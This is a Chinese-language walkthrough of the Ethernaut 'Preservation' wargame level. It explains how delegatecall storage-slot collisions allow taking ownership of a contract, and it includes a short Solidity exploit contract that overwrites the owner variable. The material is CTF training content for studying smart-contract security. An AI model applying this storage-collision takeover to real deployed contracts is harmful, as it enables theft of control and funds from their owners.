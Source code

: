 ## Level_16.Preservation

要求：

> 成为合约的owner；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

### 分析

该合约使用` LibraryContract `存储了两个不同的时间，都是使用` delegatecall `执行的，仅仅借用了` LibraryContract `中的` setTime `函数；

```solidity
// delegatecall
A ----------call----------> B ----------delegatecall----------> C
                     msg.sender = A                  ****msg.sender = A****
                     msg.data = A给的                     msg.data = A给的
                     变量的变化 = 仅C中的变量变化            变量的变化 = 仅B中的变量变化
```

在Remix中部署demo调用一遍发现和合约想要实现的效果不太一样：

![image-20250201035401028](./assets/image-20250201035401028.png)

执行` setFirstTime `时，` storedTime `并没有变化，变化的只有` timeZone1Library `；

![image-20250201035536676](./assets/image-20250201035536676.png)

同样的，执行` setSecondTime `后，变化的只有` timeZone1Library `；

![image-20250201035632698](./assets/image-20250201035632698.png)

发现` LibraryContract `中只有一个状态变量，会不会` delegatecall `改变状态变量时，只会根据"工具合约"（也就是上面的C合约）的` slot `布局来更改？

写个demo看一下：

![image-20250201040325328](./assets/image-20250201040325328.png)

所以，我们只需写一个合约，还原目标合约的布局，然后将` owner `更改为自己的地址即可；



### 攻击

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

首先将` timeZone1Library `改为我们的exp合约地址，然后再调用其即可；

![image-20250201040937798](./assets/image-20250201040937798.png)

![image-20250201041120705](./assets/image-20250201041120705.png)

